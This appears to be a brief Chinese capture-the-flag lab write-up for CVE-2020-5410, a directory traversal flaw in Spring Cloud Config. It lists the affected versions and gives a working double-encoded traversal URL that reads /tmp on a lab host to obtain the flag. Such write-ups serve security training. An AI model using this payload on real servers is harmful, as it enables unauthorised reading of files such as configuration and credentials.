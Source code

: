 # Spring Cloud Config 目录穿越漏洞（CVE-2020-5410）by [xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持，使用 Config Server ，用户可以在所有环境中管理应用程序的外部属性。近日，百度云安全团队监测到 Spring Cloud Config 官方发布了一个目录遍历漏洞的风险通告，漏洞编号为 CVE-2020-5410 。攻击者可通过构造特殊的 HTTP 请求，从而跨目录读取文件。

## 影响版本

2.2.x<=2.2.2
2.1.x<=2.1.8

## 利用流程

访问地址： `10.10.11.20:32446`

名称：CVE-2020-5410 Spring Cloud Config 目录穿越漏洞



1执行命令查看 tmp 文件获得 flag 

```
http://10.10.11.20:32446/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development
```

![1](./1.jpg)

通关！

## 参考

https://xz.aliyun.com/t/7877
